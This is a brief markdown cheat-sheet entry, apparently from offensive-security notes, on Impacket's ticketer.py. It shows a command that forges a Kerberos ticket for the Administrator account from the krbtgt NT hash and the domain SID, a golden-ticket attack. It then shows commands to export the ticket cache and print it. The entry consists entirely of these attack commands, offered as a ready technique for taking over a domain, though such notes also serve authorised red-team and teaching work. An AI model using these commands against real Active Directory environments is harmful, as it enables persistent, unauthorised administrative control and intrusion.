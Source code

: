 # Impacket-ticketer 

### Use this module to create a ticket for a specific user you have access

    ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator

    export KRB5CCNAME=/home/user/ticket.ccache

    cat $KRB5CCNAME
